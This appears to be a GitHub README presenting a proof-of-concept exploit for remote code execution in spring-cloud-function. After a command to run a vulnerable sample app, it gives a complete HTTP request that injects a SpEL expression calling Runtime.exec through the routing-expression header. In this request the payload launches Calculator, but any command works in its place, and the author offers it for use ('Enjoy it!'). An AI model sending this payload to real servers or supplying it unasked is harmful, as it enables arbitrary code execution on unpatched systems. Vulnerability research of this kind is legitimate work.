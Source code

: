 # spring-cloud-function SpEL RCE

## Vultarget

You can build it for youself. [here is the source of the Vuln App](./src)

Or you can use the release which built by cckuailong(Yh,it's me)

```
java -jar function-sample-pojo-3.2.1.RELEASE.jar
```

## Poc

```
POST /xxx HTTP/1.1
Host: test.com:8080
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("/System/Applications/Calculator.app/Contents/MacOS/Calculator")
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

xxx
```

## Result

RCE！！

![demo](./img/demo.png)

Enjoy it!

I'll put the poc code in the repo:

https://github.com/cckuailong/pocsploit

